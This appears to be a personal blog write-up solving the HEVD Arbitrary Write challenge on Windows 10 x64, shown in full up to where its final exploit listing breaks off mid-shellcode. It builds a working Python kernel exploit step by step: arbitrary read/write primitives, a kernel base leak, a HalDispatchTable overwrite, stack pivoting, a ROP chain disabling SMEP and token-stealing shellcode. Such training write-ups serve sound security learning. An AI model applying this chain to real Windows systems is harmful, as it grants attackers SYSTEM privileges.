




## Kernel Exploitation - Windows 10 x64 HEVD Arbitrary Write

Date: 2022-05-23


### Introduction

After a long time without writing, I took the decision to start a blog to share the things I've been studying. Now every post will be written in English, so I can practice my writing skills and reach more people interested in the same topics I am.

Recently me and my friends at SiDi have started studying Windows Kernel Exploitation. In order to have hands-on practice on this task, we chose [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) as a target, since this is an already widely known challenge in this field. By using this challenge as a guide, we could learn some different types of vulnerabilities that can occur in device drivers running on Windows 10 as well as how to exploit these vulnerabilities to elevate privileges.

The exploitation of the stack overflow vulnerability present in HEVD was already well explained in some awesome blogposts out there, so I'll not cover this one. I will also not cover the Integer Overflow exploitation, but if you are interested, I would like to advise you that, by default, it is not exploitable in amd64 architecture. But by [modifying just a few pieces of code](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/issues/48) you can make it vulnerable again for amd64. The exploitation will be similar to what is done for stack overflow.

For this blog post, I will try to describe, with as much details as I can, how I've solved the Arbitrary Write (aka Write-What-Where) challenge of HEVD running on an updated (April 2022) Windows 10 version 21H2. It was challenging to me to exploit it and I have learned a lot of things, so I would like to share it with you.


Notes: KPTI was not enabled in my system, maybe because I have an AMD processor. If KPTI was enabled, the exploitation tecniques used here would probably not work properly and some different strategies would have to be used.


### The Vulnerability

If you are playing this challenge, probably you're familiar with the way HEVD makes each vulnerability accessible for us. We can access them by performing IOCTLs to the driver. The `IrpDeviceIoCtlHandler` function, implemented in `HackSysExtremeVulnerableDriver.c`, will handle our IOCTL requests. When the `IoControlCode` is equals to `HEVD_IOCTL_ARBITRARY_WRITE`, the `ArbitraryWriteIoctlHandler` function will be called to handle this request, as can be seen below:

```cpp
[...]

case HEVD_IOCTL_ARBITRARY_WRITE:
    DbgPrint("****** HEVD_IOCTL_ARBITRARY_WRITE ******\n");
    Status = ArbitraryWriteIoctlHandler(Irp, IrpSp);
    DbgPrint("****** HEVD_IOCTL_ARBITRARY_WRITE ******\n");
    break;
    
[...]    
```

The implementation of `ArbitraryWriteIoctlHandler` function, available in `ArbitraryWrite.c`, is the following:

```cpp
NTSTATUS ArbitraryWriteIoctlHandler(_In_ PIRP Irp, _In_ PIO_STACK_LOCATION IrpSp){
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    PWRITE_WHAT_WHERE UserWriteWhatWhere = NULL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserWriteWhatWhere = (PWRITE_WHAT_WHERE)IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;

    if (UserWriteWhatWhere) {
        Status = TriggerArbitraryWrite(UserWriteWhatWhere);
    }

    return Status;
}
```

The most important part of this code is that the buffer `Type3InputBuffer`, coming from the userland (the one the attacker controls), is being cast to `PWRITE_WHAT_WHERE`, which is then passed along to `TriggerArbitraryWrite` function. To understand what is happening here, we should see the definition of this typedef in `ArbitraryWrite.h`:

```cpp
typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, *PWRITE_WHAT_WHERE;
```

The members `What` and `Where` in this struct are `pointers to pointers to unsigned long`. Reference [here](https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types). In x64, as far as I know, all pointers are 64 bits long, since 64 bit architectures can address `2^64` units of memory. The buffer we should send to `ArbitraryWriteIoctlHandler`, to be properly cast to `_WRITE_WHAT_WHERE` struct, should be 16 bytes long. The first 8 bytes will fit the `What` member and the last 8 bytes will fit the `Where` member.

After the cast, the variable `UserWriteWhatWhere` is being sent to `TriggerArbitraryWrite` function, also implemented in `ArbitraryWrite.c`. Lets see its implementation (I have removed some parts of code for brevity):

```cpp
NTSTATUS TriggerArbitraryWrite(_In_ PWRITE_WHAT_WHERE UserWriteWhatWhere) {
    PULONG_PTR What = NULL;
    PULONG_PTR Where = NULL;
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    __try {
        ProbeForRead((PVOID)UserWriteWhatWhere, sizeof(WRITE_WHAT_WHERE), (ULONG)__alignof(UCHAR));

        What = UserWriteWhatWhere->What;
        Where = UserWriteWhatWhere->Where;

        DbgPrint("[+] Triggering Arbitrary Write\n");

        *(Where) = *(What);
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

The most important part of this code is `*(Where) = *(What)`. The pointer `What` is dereferenced, so the value present in the memory address stored in `What` variable is got. This value is then written in the memory address stored in `Where` variable. This write operation is made without performing any validation to the memory addresses stored in `What` and `Where` variables, which are values that we, as attackers, can control. In this piece of code remains the **Arbitrary Write** vulnerability. An attacker interacting with this driver can write anything to any memory address.

This is a pseudocode of what we can do, as attackers, to trigger the vulnerability:

```cpp
struct WRITE_WHAT_WHERE {
	PULONG_PTR What;
    PULONG_PTR Where;
};

struct WRITE_WHAT_WHERE payload;

int var_in_userland = 20;

payload.What = &var_in_userland;     // address of the variable in userland
payload.Where = 0xffffffffaaaaaaaa;  // address of interesting kernel memory we want to overwrite

SendToDriver(payload);
```

Note that this is not only an Arbitrary Write vulnerability, but also an **Arbitrary Read**. If we want, we can read from any memory address using the following approach (pseudocode):

```cpp
struct WRITE_WHAT_WHERE {
	PULONG_PTR What;
    PULONG_PTR Where;
};

struct WRITE_WHAT_WHERE payload;

unsigned long long var_in_userland;

payload.What = 0xffffffffaaaaaaaa;  // kernel memory from where we want to read something
payload.Where = &var_in_userland;   // the address of a variable in userland which will store the read value

SendToDriver(payload);
printf("Value read from %p = 0x%x", payload.What, var_in_userland);
```

### Exploitation

At this point we know we have a vulnerability that allows us to write anything at any memory adddress on the system. But how can we turn this vulnerability in something useful? What are we interested into? Which approach should we take?

My objective was to get arbitrary code execution with kernel privileges. In order to achieve this objective, I had to take care of some challenges:

- Find a way to use the arbitrary write to hijack the kernel execution flow;
- Make the kernel execute my shellcode. The SMEP is enabled, so I can't just make RIP point to a userland address;
- We can write only a single qword at a time, and different from exploiting a stack overflow, we don't have a stack ready to be filled with a ROP chain.


#### 0 - Exploit template

We will write our exploit in Python 3. Its easier than C and we don't need the whole VisualStudio package.

In order to interact with the device driver, we should use some Windows APIs like `CreateFileA` and `DeviceIoControl`. Below you can see how I implemented this part of the exploit:

```python
# Get a handle to the HEVD device driver
def get_device_handle():
    handle = windll.kernel32.CreateFileA(
        b'\\\\.\\HackSysExtremeVulnerableDriver', 
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        None,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        None
    )

    return handle


# Interact with the device driver using IOCTL_ARBITRARY_WRITE
def do_ioctl(handle, buffer_ptr):
    bytes_returned = c_ulong()
    buffer_len = 16

    windll.kernel32.DeviceIoControl(
        handle,
        IOCTL_ARBITRARY_WRITE,
        buffer_ptr,
        buffer_len,
        None,
        0,
        byref(bytes_returned),
        None)

```

As already explained, we have an Arbitrary Read and an Arbitrary Write vulnerability. Lets abstract the exploitation of them in two functions, so we can easily use them later:

```python
# Exploit the vulnerability to read from arbitrary addresses
def read(where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong()
    www.What = c_ulonglong(where)
    www.Where = addressof(tmp)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

    return tmp.value


# Exploit the vulnerability to write into arbitrary addresses
def write(what: int, where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong(what)
    www.What = addressof(tmp)
    www.Where = c_ulonglong(where)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

```

There are two more functions that we will use as helpers. The first one is to leak the kernel base address using the `EnumDeviceDrivers` API. The second one is to load `ntoskrnl.exe` in the context of our process, search for exported symbols and use the kernel base address leaked by `EnumDeviceDriver` to discover where these symbols are located in the running kernel. If you have already exploited other HEVD challenges, probably you're familiar with these techniques.

```python
# Leak the kernel base address using EnumDeviceDrivers API
def get_kernel_base():
    drivers = (c_ulonglong * 2048)()
    bytes_returned = (c_long)()

    windll.Psapi.EnumDeviceDrivers(byref(drivers), sizeof(drivers), byref(bytes_returned))

    return drivers[0]


# Load ntoskrnl.exe in the context of our process using LoadLibrary
# Then, use GetProcAddress to get the address to some exported symbol
# Use the leaked kernel base address to calculate the address of the symbol in the running kernel
def get_kernel_symbol_addr(symbol: bytes):
    kernel_base = get_kernel_base()

    windll.kernel32.LoadLibraryA.restype = c_void_p
    handle = windll.kernel32.LoadLibraryA(b'C:\\Windows\\System32\\ntoskrnl.exe')

    if handle == -1:
        print('Failed to load ntoskrnl.exe')
        return -1

    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    addr = windll.kernel32.GetProcAddress(handle, symbol)

    return (addr - handle) + kernel_base

```

This should be enough for now.


#### 1 - Hijacking kernel execution flow

In order to hijack the kernel execution flow we will overwrite a function pointer in `HalDispatchTable`. The book "A Guide to Kernel Exploitation - Attacking the Core" mentions that this technique was originally used by Ruben Santamarta and described in the paper "Exploiting Common Flaws in Drivers", which you can find [here](https://drive.google.com/file/d/1j3SkLIOVidguOjmT4_F1yiCcdnm9W8LT/view). The HalDispatchTable is an exported kernel symbol (we can leak its address using the technique with EnumDeviceDrivers, LoadLibrary and GetProcAddress) that stores function pointers. In x64, the second function pointer of HalDispatchTable is located at HalDispatchTable + 0x8, and is called every time we use the undocumented `NtQueryIntervalProfile` system call. So the overall idea is:

1. We leak the kernel base address using NtQuerySystemInformation or EnumDeviceDrivers (two well-known techniques that works for programs running at Medium Integrity Level);
2. Use LoadLibrary to load ntoskrnl.exe as a library in the context of our program and use GetProcAddress to get the offset of HalDispatchTable from the kernel base address;
3. Use the leaked kernel base address to calculate the real address of HalDispatchTable;
4. Use the arbitrary read vulnerability to backup the value of `HalDispatchTable + 8`;
5. Use the arbitrary write vulnerability to overwrite the value of `HalDispatchTable + 8` to some function pointer we want to execute;
6. Execute the `NtQueryIntervalProfile` system call, executing our new function pointer at `HalDispatchTable + 8`;
7. Use the arbitrary write vulnerability to restore the backup value of `HalDispatchTable + 8`, so we don't mess up with the kernel.

With this technique we should be able to hijack the kernel execution flow. Here is how we can implement this part:

```python
def main():
    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1

    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    shellcode_addr = 0x0000000041414141
    write(shellcode_addr, hal_dispatch_table_addr + 0x8)
    windll.ntdll.NtQueryIntervalProfile(0x1234, 0x1234)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)
```

But this control we will have over RIP is too much limited. Remember that SMEP is enabled. You can't just overwrite the function pointer at `HalDispatchTable + 0x8` to a pointer to your shellcode in userland.

We usually can bypass SMEP through a ROP chain that modifies the value of CR4 register using gadgets available in ntoskrnl.exe image (in other words, we usually can disable SMEP by using instructions already present in the kernel address space). But we don't have control over the stack to place a full gadget chain (remember - Return Oriented Programming is possible because every time ou `ret`, the value at the top of the stack is popped to RIP). It is unlikely that we will find a single gadget that can both disable SMEP and then jump to our shellcode in userland.

So, how can we, with a single gadget, circumvent this limitation? You can find the answer below.


#### 2 - Stack Pivoting

Since we have to use a single gadget to get more control over the kernel execution flow, we will use a technique called Stack Pivoting. The technique consists of using a ROP gadget to move the stack to some place we (the attackers) control. The address of this gadget should be written at `HalDispatchTable + 8`, that will be executed when we call the `NtQueryIntervalProfile` system call. As soon as this stack pivoting gadget reaches the `ret` instruction, the stack will be placed at a memory region we control. When the `ret` instruction is executed, the value at the top of the stack (that we control too) will be popped to the RIP and will be executed. This will give us the possibility to place a complete gadget chain to disable SMEP and to finally jump to our shellcode.

After some investigation, we have noted that, at the exact moment of the execution of the function pointer at `HalDispatchTable + 0x8`, the value of RBX is the same value we specified in the second parameter of the `NtQueryIntervalProfile` call. Keep this in mind, cause this will be useful in a moment.






The stack is controlled by the RSP register. So a stack pivoting gadget is basically some gadget that changes the value of the RSP register to some address we control. Usually, instructions like `mov` and `xchg` are the most interesting.

I like to use [Ropper](https://github.com/sashs/Ropper) to find ROP gadgets. It has a built-in command to look for stack pivoting gadgets, but it gave me a really big output, so I decided to search manually. My first idea was to find a gadget like `mov rsp, rbx` because we control the value of RBX when we call `NtQueryIntervalProfile`. Unfortunately I couldn't find this exact gadget. But I found a `mov esp, ebx`, which is similar, but only deals with 32-bit values inside RSP and RBX registers. We will have to deal with this limitation.




Fortunately, we found a clean gadget at `0x00000000003e92b9` that just moves the value and returns.

So, in summary: when we call `NtQueryIntervalProfile`, our stack pivoting gadget (mov esp, ebx) will be triggered. The second parameter we send in the function call will be placed in RBX, but since our gadget is using EBX instead, we can not pass a value greater than 0xffffffff. After the gadget executes, the kernel stack will be pivoted to an address we control.

We must allocate our fake stack (that will be the new kernel stack after the pivoting) in an address that fits in a 32 bits register. The VirtualAlloc Windows API allows us to specify a kind of "preferred address" where we want to allocate memory, and it will try to allocate somewhere below or equals to this address. [Read more here](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc). 

There are some other things to consider. You can't use exact address returned by VirtualAlloc as the new stack for the kernel, otherwise the kernel may raise a Double Fault exception. I don't know exaclty why this happens, but I've seen [other people](https://kristal-g.github.io/2021/02/20/HEVD_Type_Confusion_Windows_10_RS5_x64.html) having this problem too. It is safer to allocate a big chunk of memory and pass a pointer for the middle of this big chunk to be used as the new stack. If the kernel decides to use the memory around your fake stack, the pages near that will be already allocated, preventing the DoubleFault exception (cause you allocated a big chunk and the kernel stack is in the middle of this chunk).

This is our unfinished code for the stack pivoting:

```python
def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000
    fake_stack = 'VALUES_IN_OUR_FAKE_STACK'

	// 0x00ffffff is our preferred address, a 32-bit value
    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)

    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr

def main():
    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    g_stack_pivot = 0x00000000003e92b9       # mov esp, ebx; ret;
    kernel_base = get_kernel_base()
    g_stack_pivot += kernel_base

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1

    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    fake_stack_ptr = get_fake_stack_addr()
    write(g_stack_pivot, hal_dispatch_table_addr + 0x8)
    windll.ntdll.NtQueryIntervalProfile(0x1234, fake_stack_ptr)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)
```

With the techniques explained above we should be able to take control over the kernel stack and execute our ROP chain. The next steps are basically bypass the SMEP and finally jump to our shellcode.


#### 3 - SMEP Bypass

SMEP stands for Supervisor Mode Execution Prevention. It is a security feature intended to prevent code placed in userland memory pages to be executed by the kernel. Since this is exaclty our objective for this exploit, we must find a way to circumvent this feature.

The SMEP is controlled by the [20th bit (starting from index 0) of the CR4 register](https://en.wikipedia.org/wiki/Control_register#SMEP). Since we cannot use a userland shellcode to disable the SMEP (this is exactly what SMEP prevents), we must use a kernel code (a ROP chain in ntoskrnl.exe, for example) to disable it.

So the idea here is: after performing the stack pivoting, the first thing in our stack should be a ROP chain that modifies the value of the CR4 register, disabling its 20th bit.

Long story short, this is the ROP chain we will use (the gadgets are available in ntoskrnl.exe):

```python
0x0000000000205dbc              # pop rcx; ret
0x2506f8                        # CR4 register value for disabled SMEP
0x000000000039df47              # mov cr4, rcx; ret;
address_to_userland_shellcode
```

Basically, the first gadget will pop the value (0x2506f8) at the top of the stack to the RCX register. This will be the new value of the CR4 register, with the 20th bit disabled. Then, the value in RCX will be moved to the CR4 register.

We can place the address of our userland shellcode right after the ROP chain that disables SMEP, so when the last gadget returns, our shellcode will be executed. The only thing you should take care is ensuring the shellcode memory region is executable. You can use the PAGE_EXECUTE_READWRITE constant in VirtualAlloc for this purpose. The updated code of our still unfinished function to generate the fake stack is the following:

```python
def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000

    shellcode = bytearray(b'SOME_SHELLCODE_HERE')

    windll.kernel32.VirtualAlloc.restype = c_void_p
    shellcode_buff = windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    if shellcode_buff == 0:
        printf('Failed to allocate buffer for shellcode')
        return -1

    tmp_c_buffer = (c_char * len(shellcode)).from_buffer(shellcode)

    windll.kernel32.RtlMoveMemory.argtypes = [c_void_p, c_void_p, c_ulong]
    windll.kernel32.RtlMoveMemory(shellcode_buff, tmp_c_buffer, len(shellcode))

    fake_stack = bytearray(struct.pack('<Q', g_pop_rcx_addr))
    fake_stack += struct.pack('<Q', cr4_smep_disabled)
    fake_stack += struct.pack('<Q', g_mov_cr4_rcx_addr)
    fake_stack += struct.pack('<Q', shellcode_buff)

	// 0x00ffffff is our preferred address, a 32-bit value
    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)

    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr
```

Now comes the last part. The actual privilege escalation shellcode.


#### 4 - Token stealing

The token stealing shellcode consists of a sequence of instructions that aims to replace the token of our current process by the token of the System process (PID 4). The shellcode was already [well expained in this blogpost of Connor McGarr](https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/).

In order to make the shellcode work properly, I had to modify some parts of it. The strucutres offsets are different for the Windows version I'm using. Additionally, since we did the stack pivoting, I had to recover the previous RSP before returning (we lost its value because our stack pivoting gadget was `mov esp, ebx`). Two more instructions were added to the shellcode. In order to recover the RSP, I just used RBP with an offset, since RSP and RBP control together the stack frame (and the offset between them will be always the same for the same stack frame).

The final token stealing payload is the following:

```x86asm
# Token Stealing and RSP recovery - Windows 10 x64 version 21H2 (Build 19044.1586)

_start:
    mov rax, [gs:0x188]       # Current thread (_KTHREAD)
    mov rax, [rax + 0xb8]     # Current process (_EPROCESS)
    mov rbx, rax              # Copy current process (_EPROCESS) to rbx

_loop:
    mov rbx, [rbx + 0x448]    # Get next process (ActiveProcessLinks)
    sub rbx, 0x448            # Go back to _EPROCESS
    mov rcx, [rbx + 0x440]    # UniqueProcessId (PID)
    cmp rcx, 4                # Compare PID to SYSTEM PID 
    jne _loop                 # Loop until SYSTEM PID is found

    mov rcx, [rbx + 0x4b8]    # SYSTEM token is @ offset _EPROCESS + 0x4b8
    and cl, 0xf0              # Clear out _EX_FAST_REF RefCnt
    mov [rax + 0x4b8], rcx    # Copy SYSTEM token to current process

    mov rsp, rbp              # Here we use the base pointer to restore the stack pointer (we lost in stack pivot)
    sub rsp, 0x118
    xor rax, rax
    ret                       # Done!

```

### Complete Exploit

So now we have completed the exploit. Below you can see the complete source code:

```python
import sys
import struct
import subprocess
from ctypes import *

# Constants used in Windows APIs
GENERIC_READ = 0x80000000
GENERIC_WRITE = 0x40000000
FILE_SHARE_READ = 0x00000001
FILE_SHARE_WRITE = 0x00000002
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x00000080
FILE_FLAG_OVERLAPPED = 0x40000000
MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
PAGE_EXECUTE_READWRITE = 0x40

# HEVD IOCTL code
IOCTL_ARBITRARY_WRITE = 0x22200b

# ROP related
g_stack_pivot = 0x00000000003e92b9       # mov esp, ebx; ret;
g_mov_cr4_rcx_addr = 0x000000000039df47  # mov cr4, rcx; ret;
g_pop_rcx_addr = 0x0000000000205dbc      # pop rcx; ret
cr4_smep_disabled = 0x2506f8             # CR4 register value for disabled SMEP


# Get a handle to the HEVD device driver
def get_device_handle():
    handle = windll.kernel32.CreateFileA(
        b'\\\\.\\HackSysExtremeVulnerableDriver', 
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        None,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        None
    )

    return handle


# Leak the kernel base address using EnumDeviceDrivers API
def get_kernel_base():
    drivers = (c_ulonglong * 2048)()
    bytes_returned = (c_long)()

    windll.Psapi.EnumDeviceDrivers(byref(drivers), sizeof(drivers), byref(bytes_returned))

    return drivers[0]


# Load ntoskrnl.exe in the context of our process using LoadLibrary
# Then, use GetProcAddress to get the address to some exported symbol
# Use the leaked kernel base address to calculate the address of the symbol in the running kernel
def get_kernel_symbol_addr(symbol: bytes):
    kernel_base = get_kernel_base()

    windll.kernel32.LoadLibraryA.restype = c_void_p
    handle = windll.kernel32.LoadLibraryA(b'C:\\Windows\\System32\\ntoskrnl.exe')

    if handle == -1:
        print('Failed to load ntoskrnl.exe')
        return -1

    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    addr = windll.kernel32.GetProcAddress(handle, symbol)

    return (addr - handle) + kernel_base


# Interact with the device driver using IOCTL_ARBITRARY_WRITE
def do_ioctl(handle, buffer_ptr):
    bytes_returned = c_ulong()
    buffer_len = 16

    windll.kernel32.DeviceIoControl(
        handle,
        IOCTL_ARBITRARY_WRITE,
        buffer_ptr,
        buffer_len,
        None,
        0,
        byref(bytes_returned),
        None)


def initialize_globals():
    global g_stack_pivot, g_mov_cr4_rcx_addr, g_pop_rcx_addr

    print('Initializing globals...')
    
    kernel_base = get_kernel_base()
    print('kernel_base = 0x%x' %(kernel_base))

    g_stack_pivot += kernel_base
    print('g_stack_pivot = 0x%x' %(g_stack_pivot))

    g_mov_cr4_rcx_addr += kernel_base
    print('g_mov_cr4_rcx_addr = 0x%x' %(g_mov_cr4_rcx_addr))

    g_pop_rcx_addr += kernel_base
    print('g_pop_rcx_addr = 0x%x' %(g_pop_rcx_addr))


def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000

    shellcode = bytearray(
        b"\x65\x48\x8b\x04\x25\x88\x01"      # mov    rax,QWORD PTR gs:0x188
        b"\x00\x00"
